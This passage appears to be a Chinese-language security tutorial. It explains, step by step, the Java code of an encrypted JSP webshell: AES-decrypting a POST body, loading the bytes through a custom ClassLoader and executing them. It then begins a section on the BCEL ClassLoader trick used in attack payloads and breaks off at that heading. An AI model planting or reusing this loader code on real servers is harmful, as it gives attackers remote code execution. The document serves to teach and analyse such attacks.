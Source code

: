 ### 源码分度解析

最后一行调用的方法比较多我们拆开来看

```java
Cipher c = Cipher.getInstance("AES");
c.init(2, new SecretKeySpec(k.getBytes(), "AES")); // 2对应解密模式（Cipher.DECRYPT_MODE）
```

- **初始化Cipher**：使用AES算法创建解密实例，模式为`Cipher.DECRYPT_MODE`（值2）。

- **密钥规范**：通过`SecretKeySpec`将字符串密钥转换为AES所需的密钥格式。

```java
byte[] encryptedData = new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine());
byte[] decryptedData = c.doFinal(encryptedData); // AES解密
```

- **读取请求体**：从POST请求中读取一行Base64编码的加密数据。
- **解密数据**：使用AES密钥解密数据，得到原始的字节码（`.class`文件内容）。

```java
ClassLoader customLoader = new U(this.getClass().getClassLoader());
Class maliciousClass = customLoader.g(decryptedData); // 调用defineClass加载类
Object instance = maliciousClass.newInstance(); // 实例化类
instance.equals(pageContext); // 触发恶意代码
```

- **自定义类加载器**：通过继承`ClassLoader`的`U`类绕过安全限制，暴露`defineClass`方法。
- **加载恶意类**：将解密后的字节码动态加载为Java类。
- **执行代码**：实例化类并调用`equals`方法，传入`pageContext`对象（提供JSP上下文，便于攻击者操作）。

## 六、BCEL ClassLoader

> 正常的classloader加载类时，要有两部分CLASS_NAME和CLASS_BYTES
>
> BCEL Classloader特性：可以将名称直接加载为类

BCEL（Apache Commons BCE）是一个用于分析、创建和操纵Java类文件的工具库，Oracle JDK引用了BCEL库，不过修改了原包名 org.apache.bcel.util.ClassLoader 为 com.sun.org.apache.bcel.internal.util.ClassLoader，BCEL的类加载器在解析类名时会对ClassName中有 $$BCEL$$标识的类做特殊处理，该特性经常被用于编写各类攻击Payload。

### 流程

```
       [特殊类名]  
         ↓  
$$BCEL$$ + EncodedBytecode  
         ↓  
   解码为字节数组 (byte[])  
         ↓  
  defineClass() → JVM Class
```

### BCEL攻击原理
